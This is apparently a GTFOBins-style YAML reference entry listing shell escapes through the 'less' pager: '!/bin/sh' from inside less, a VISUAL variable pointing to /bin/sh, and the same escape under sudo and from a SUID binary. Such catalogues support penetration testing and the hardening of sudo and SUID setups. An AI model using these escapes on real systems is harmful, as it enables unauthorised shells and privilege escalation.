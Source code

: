 ```yaml
---
functions:
  exec-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        ./less /etc/profile
        !/bin/sh
---
```


